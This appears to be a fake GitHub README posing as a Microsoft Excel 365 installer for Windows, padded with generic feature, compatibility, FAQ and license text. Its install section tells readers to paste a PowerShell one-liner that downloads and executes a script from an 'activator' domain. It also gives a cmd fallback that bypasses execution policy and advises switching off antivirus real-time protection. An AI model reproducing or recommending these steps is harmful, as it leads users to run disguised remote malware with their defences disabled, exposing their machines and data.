

<div align="center">

# Microsoft Excel 365: Spreadsheet & Data Analysis Suite for Windows 11



[]() []() []() []() []()

</div>

---

Microsoft Excel is the desktop spreadsheet application within Microsoft 365, with the 2024 and 2021 builds serving as the primary versions for reports, budgets, and lists. Each workbook resides on a single PC and contains its own sheets, charts, and supporting structures for organizing and analyzing data. The application provides advanced formulas and functions, real-time co-authoring across multiple users, template-based project starts, and integration with other Microsoft 365 apps to streamline workflows. Workbook content remains accessible across devices with an internet connection, supporting flexible and efficient data work.

## 💻 PowerShell Quick Install

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10/11 · PowerShell 7+ · No admin

### 1️⃣ Start PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Execute the installer
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If blocked by policy — CMD fallback
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Workbook-centric local storage** — Each workbook is a self-contained file persisted on the local PC, holding all of its sheets, formulas, charts, and named ranges, so reports, budgets, and lists remain portable and self-sufficient.
- **Multi-sheet organization** — Supports multiple worksheets within a single workbook, enabling separation of raw data, calculations, and presentation layers while keeping cross-sheet references intact.
- **Formula and function engine** — Provides a broad library of built-in functions spanning arithmetic, logical, lookup, text, date/time, and statistical categories, with support for nested expressions and cell/range references.
- **Chart generation** — Renders charts directly from worksheet data, with chart objects embedded alongside their source ranges and kept in sync as underlying values change.
- **2024 and 2021 build coverage** — Targets the 2024 and 2021 desktop builds, the versions commonly used for business reporting, budgeting, and list management.
- **Structured data handling** — Accommodates tabular lists and ranges suitable for sorting, filtering, and summarizing, supporting both ad hoc analysis and recurring reporting workflows.
- **Report and budget authoring** — Designed around the desktop spreadsheet use cases of report production, budget modeling, and list maintenance, with formatting and layout controls applied at the sheet level.
- **Offline-first operation** — Workbooks open and edit locally without requiring a network connection, with all computation performed on the host machine.

## How it works

Microsoft Excel 365 operates as a native Windows desktop application that binds workbook data to a local file on the user's PC. Each workbook is a self-contained container: sheets, cell values, formulas, and formatting are stored within a single file, and charts or additional sheets are embedded alongside the source data they reference.

The calculation engine evaluates formulas on the client, recalculating dependent cells when inputs change. Function libraries cover arithmetic, statistical, lookup, text, and date operations, with support for named ranges and cross-sheet references. The 2024 and 2021 builds share the same core evaluation model, so workbooks created in one build open and recalculate consistently in the other.

The rendering layer draws the grid, charts, and conditional formatting directly on the desktop, with no browser dependency. Charts remain linked to their underlying ranges, so edits to source cells propagate to the visual output. Multiple sheets within a workbook are managed through a tabbed interface, and additional sheets can be inserted without leaving the file.

Collaboration and cloud features layer on top of the local file model: when a workbook is stored in a connected location, co-authoring merges concurrent edits from multiple users, while the local copy continues to function offline. Integration with other Microsoft 365 applications passes data between the spreadsheet and related tools through shared file formats and linked references, keeping workflows within a single document ecosystem.

## Compatibility

Microsoft Excel is natively designed for the Windows desktop platform. The 2024 and 2021 builds ship as 64-bit applications by default, with 32-bit variants available for environments that depend on legacy add-ins or constrained memory configurations. Installation requires Windows 10 or Windows 11 on supported hardware; the 2024 build aligns with the current Windows release cadence, while the 2021 build remains available for organizations on a fixed-version lifecycle.

Workbook compatibility spans the standard Excel file formats, including XLSX, XLSM, XLSB, and CSV, with round-trip fidelity preserved for formulas, pivot tables, conditional formatting, and embedded charts. Files created in earlier Excel versions open without conversion prompts, and workbooks produced in the 2024 build remain readable in the 2021 build as long as they avoid features introduced after 2021. Compatibility mode is applied automatically when a workbook uses only features supported by an older target version.

Formula and function support follows the build: the 2024 release includes the full modern function set, including dynamic arrays and newer lookup and text functions, while the 2021 build supports its corresponding function library. Features that are unsupported in a given build are flagged through the standard compatibility checker rather than silently altered, allowing users to review and remediate before sharing.

Multi-sheet workbooks, external links, and data connections behave consistently across both builds. Charts, additional sheets, and defined names persist without loss when workbooks move between the two versions. Printing, pagination, and page-layout settings are retained on a per-sheet basis, and the compatibility checker reports any version-specific rendering differences before export or distribution.

For environments running mixed builds, the 2021 and 2024 releases interoperate through the shared desktop file model: a workbook saved on one PC carries its sheets, charts, and auxiliary sheets intact when opened on another. No server-side dependency is required for local editing, and offline use retains full feature parity with the connected state.

## FAQ

**Which builds are covered?**

Microsoft Excel for Microsoft 365 ships as part of the Microsoft 365 subscription. The 2024 and 2021 builds are the desktop releases referenced throughout this README; they are the builds used for reports, budgets, and lists, and they share the same workbook engine.

**Where is a workbook stored?**

A workbook on one PC holds the sheets. Charts and extra sheets live inside the same workbook file, so a document produced on one machine remains self-contained when opened on another. Saving and reopening preserves the sheet structure, formulas, and chart references.

**What can I do with formulas and functions?**

The formula bar supports the standard function library used for aggregation, lookup, logical tests, text handling, and date arithmetic. Formulas recalculate on edit and reference cells across sheets within the same workbook. Named ranges and structured references are available for maintaining readable, reusable expressions.

**Does it support charts and multiple sheets?**

Yes. A workbook can hold multiple sheets, and charts are embedded alongside the data they reference. Inserting an extra sheet does not disturb existing chart series, and chart data ranges can be extended or re-pointed through the chart's data selection.

**What are the compatibility notes?**

Workbooks created in the 2024 and 2021 builds open in either build. The desktop application targets Windows and reads and writes the standard workbook file formats. Documents produced in newer builds may use features that older builds render in compatibility mode.

**Can several people work in one workbook?**

Real-time co-authoring is available when the workbook is hosted in a supported shared location. Multiple users can edit simultaneously, and the application reconciles concurrent changes. Local-only workbooks are edited by a single user at a time.

**How does it integrate with the rest of Microsoft 365?**

Workbooks connect to the other Microsoft 365 applications for streamlined workflows: data can be pasted or linked between applications, and documents can be shared through the same account and service context used by the rest of the suite.

**Which templates are included?**

A set of built-in templates covers common report, budget, and list layouts. Templates pre-populate sheet structure, formulas, and formatting so a project can start from an established pattern rather than a blank workbook.

**What are the resource requirements?**

The desktop application runs on Windows. Performance scales with workbook size: large data ranges, many chart objects, and heavy cross-sheet formula chains increase memory use and recalculation time. Closing unused workbooks frees the associated resources.

**How are bugs and feature requests handled?**

Report issues through the project's issue tracker with the build version, a description of the workbook operation, and steps to reproduce. Feature requests should state the use case and the expected behavior. Small, focused reports are easier to triage and resolve.

**Is the license applicable to the desktop software?**

The license stated in this project applies to the project materials. Use of the Microsoft Excel desktop application itself is governed by the terms of the Microsoft 365 subscription under which it is licensed.

## Disclaimer

Microsoft-Excel-365 is provided on an "as is" and "as available" basis, without warranties of any kind, whether express, implied, or statutory, including but not limited to warranties of merchantability, fitness for a particular purpose, accuracy, and non-infringement. No guarantee is made that the software will be uninterrupted, error-free, or free of harmful components, or that defects will be corrected.

You are solely responsible for determining the suitability of Microsoft-Excel-365 for your intended use and for verifying the integrity, accuracy, and completeness of any workbook, formula, chart, budget, report, or list produced with it before relying on that output for business, financial, or personal decisions. Formulas, recalculation behavior, chart rendering, and multi-sheet references may produce results that differ across builds, locales, and regional settings; always validate critical calculations independently.

Data residency and persistence are your responsibility. Workbooks stored on a single PC remain subject to the availability, integrity, and backup policies of that machine. You are responsible for maintaining adequate backups and for ensuring that any sensitive, regulated, or confidential information placed in a workbook is handled in accordance with applicable organizational policy and law.

To the maximum extent permitted by applicable law, the authors, maintainers, and contributors of Microsoft-Excel-365 shall not be liable for any direct, indirect, incidental, special, consequential, or exemplary damages, including but not limited to loss of data, loss of profits, loss of revenue, business interruption, or costs of substitute goods or services, arising out of or in connection with the use of, inability to use, or reliance on this software, regardless of the theory of liability and whether or not advised of the possibility of such damages.

Nothing in this disclaimer excludes or limits liability that cannot be excluded or limited under applicable law. Use of Microsoft-Excel-365 constitutes acceptance of these terms; if you do not accept them, do not use the software.

## License

Microsoft-Excel-365 is distributed under the MIT License, a permissive open-source license that grants broad rights to use, copy, modify, merge, publish, distribute, sublicense, and sell copies of the software. The license applies to the source code, documentation, and associated project files within this repository.

Under the terms of the MIT License, any distribution of the software or derivative works must retain the original copyright notice and this permission notice in all copies or substantial portions of the software. Redistributions in binary or compiled form must reproduce the same notices in the documentation or other materials provided with the distribution.

The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.

The MIT License does not impose copyleft requirements, meaning derivative works may be relicensed under different terms provided the original notice is preserved. Users integrating Microsoft-Excel-365 into commercial or proprietary workflows retain full ownership of their own code and configurations, while the upstream project remains freely available for inspection, modification, and redistribution.

For the complete and authoritative text of the license, refer to the LICENSE file included at the root of this repository. That file constitutes the binding legal terms governing use of the project; this summary is provided for convenience only and carries no legal weight.